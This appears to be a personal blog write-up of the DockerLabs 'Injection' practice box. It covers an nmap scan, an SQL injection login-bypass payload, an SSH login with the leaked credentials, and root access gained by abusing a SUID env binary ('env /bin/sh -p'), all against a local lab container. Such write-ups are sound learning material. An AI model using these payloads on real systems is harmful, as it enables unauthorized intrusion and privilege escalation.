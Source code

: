 ```yaml
---
title: "Injection from Dockerlabs"
author: ferbot
date: 2025-07-28 12:00:00 +0800
categories: [dockerlabs, linux]
tags: [dockerlabs, veryeasy, sqli, suid]
description: VeryEasy box from DL with a small twist at privesc
---
```


### Dockerlabs: Injection

I learned a couple of weeks ago about this website DockerLabs and decided to give it a try. For starters I downloaded a **Very Easy** box to get a nudge of what I will be getting myself into. This box was very straightforward with the injection and SSH password, however I did not expect the privilege escalation to be from abusing SUID but rather a sudo command or old binary abuse, which came as a nice surprise.

### Initial enumeration

As always I started with an nmap scan, the result was as follows.

```bash
Nmap scan report for 172.17.0.2
Host is up (0.0000070s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 72:1f:e1:92:70:3f:21:a2:0a:c6:a6:0e:b8:a2:aa:d5 (ECDSA)
|_  256 8f:3a:cd:fc:03:26:ad:49:4a:6c:a1:89:39:f9:7c:22 (ED25519)
80/tcp open  http    Apache httpd 2.4.52 ((Ubuntu))
|_http-title: Iniciar Sesi\xC3\xB3n
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.52 (Ubuntu)
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Inspecting the website I am greeted by a login page.

![placeholder](/assets/img/dockerlabs/injection/dockerlabs-injection-login.png "Login page")

After making a quick login attempt using the credentials `admin:admin'` (notice the semicolon) I saw the following message.

![placeholder](/assets/img/dockerlabs/injection/dockerlabs-injection-sqli.png "SQL error message")

This implies that there may be an SQL injection in the login form. I copied the request to a file that I used to feed sqlmap.

While sqlmap fetched data, I attempted to login completing the query.

> name=admin&password=admin'+OR+'1'='1'--+-&submit=

Which redirected me to `/acceso_valido_dylan.php` which showed me the following credentials.

> Bienvenido Dylan! Has insertado correctamente tu contraseña: KJSDFG789FGSDF78

### First shell

I then attempted to login as dylan (using that password) through the SSH service enumerated before.

```bash
$ ssh dylan@172.17.0.2
The authenticity of host '172.17.0.2 (172.17.0.2)' can't be established.
ED25519 key fingerprint is SHA256:5ic4ZXizeEb8agR4jNX59cBONCe5b5iEcU9lf2zt0Q0.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '172.17.0.2' (ED25519) to the list of known hosts.
dylan@172.17.0.2's password: 
Welcome to Ubuntu 22.04.4 LTS (GNU/Linux 6.11.2-amd64 x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

This system has been minimized by removing packages and content that are
not required on a system that users do not log into.

To restore this content, you can run the 'unminimize' command.

The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

dylan@563ef2c2ecf8:~$ 
```

### Privilege escalation

I tried to enumerate on my own the privileges of dylan using sudo but it did not work.

```bash
dylan@563ef2c2ecf8:~$ sudo -l
-bash: sudo: command not found
dylan@563ef2c2ecf8:~$ 
```

I ended up using the classic Linpeas privilege escalation enumeration script to do the trick and noticed the following permission.

![placeholder](/assets/img/dockerlabs/injection/dockerlabs-injection-env-suid.png "env binary suid")

This indicated that the `env` binary had the **SUID** bit set on it.

After reading [GTFObins](https://gtfobins.github.io/gtfobins/env/), I noticed there was a technique to obtain root privileges.

I executed the following and obtained root.

```bash
$ env /bin/sh -p
# cd /root
# echo "No flag like hackthebox!"
```

Overall very fun box. Looking forward to do more from this website.

